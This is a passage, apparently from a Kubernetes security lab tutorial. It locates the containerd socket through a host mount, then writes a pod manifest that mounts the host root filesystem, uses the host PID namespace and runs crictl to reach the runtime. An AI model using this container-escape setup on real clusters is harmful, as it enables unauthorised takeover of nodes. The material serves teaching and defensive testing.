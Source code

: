 The Kubernetes kubelet daemon communicates to a container runtime using the `--container-runtime-endpoint=` configuration
flag, in our case it points to `/var/run/containerd/containerd.sock`.

We have learned two things:

- what the container runtime is: `containerd`
- where it is listening: `/var/run/containerd/containerd.sock`

In our second approach, we can find containerd's config typically found in the `/etc` directory on a host:

```shell
/ # ls -l /host/etc/containerd/
total 8
-rw-r--r--    1 root     root          7004 May 25 14:44 config.toml

/ #
```

There is its config (`.toml`) file! We can confirm that it is configured to listen on a unix socket by searching the
config:

```shell
/ # cat /host/etc/containerd/config.toml  | grep sock

  address = "/run/containerd/containerd.sock"

/ #
```

Confirmed! The socket is at `/run/containerd/containerd.sock`. Let's exit from the container and go back to our host:

```shell
/ # exit

~/k01$
```

Since our runtime is `containerd`, we can use the containerd cli (`crictl`) to interact with it through the unix socket
file.

Next, we'll create a new container that has the `crictl` binary installed:

```shell
~/k01$ nano priv-user-crictl.yaml && cat $_
```

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: priv-user-crictl
spec:
  # Bad host volumene mount
  volumes:
  - name: nicehost
    hostPath:
      path: /
  # Host PID
  hostPID: true
  containers:
  - name: root-user-crictl
    image: docker.io/dojobits/crictl:v1.30.0
    command: ["sleep", "3600"]
    volumeMounts:
    - name: nicehost
      mountPath: /host
```